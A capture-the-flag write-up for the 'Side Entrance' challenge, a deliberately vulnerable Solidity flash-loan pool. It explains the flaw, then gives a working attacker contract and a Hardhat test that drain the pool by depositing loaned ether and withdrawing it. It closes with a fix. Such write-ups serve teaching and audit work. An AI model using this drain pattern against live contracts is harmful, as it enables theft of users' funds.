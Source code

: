 # 4 - Side Entrance

```solidity
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping(address => uint256) private balances; // maybe there could be a problem here

    function deposit() external payable {
        balances[msg.sender] += msg.value; // what if the attacker directly sends ether?
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external { // borrow -> send
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");
    }
}
```

### Solution

```solidity
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");
```

Here, the contract naively checks the balance of the contract itself.

So we will call `deposit` during `flashLoan` function call tx.

After then, the contract still has same amount of balanced but `balances[msg.sender]` has increased, and we just drain the contract by calling withdraw function.

```solidity
contract AttackSideEntranceLenderPool {
    SideEntranceLenderPool pool;

    constructor(address _pool) {
        pool = SideEntranceLenderPool(_pool);
    }

    function attack() external {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        payable(msg.sender).call{value: address(this).balance}("");
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }

    receive() external payable {}
}

```

```javascript
  it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    const AttackSideEntranceLenderPool = await ethers.getContractFactory('AttackSideEntranceLenderPool');
    const attackSideEntranceLenderPool = await AttackSideEntranceLenderPool.connect(attacker).deploy(this.pool.address);
    await attackSideEntranceLenderPool.deployed();

    const tx = await attackSideEntranceLenderPool.attack();
    await tx.wait();
  });
```

Rather than having `deposit()` , the contract should have tracked its balance by using `receive()` function.
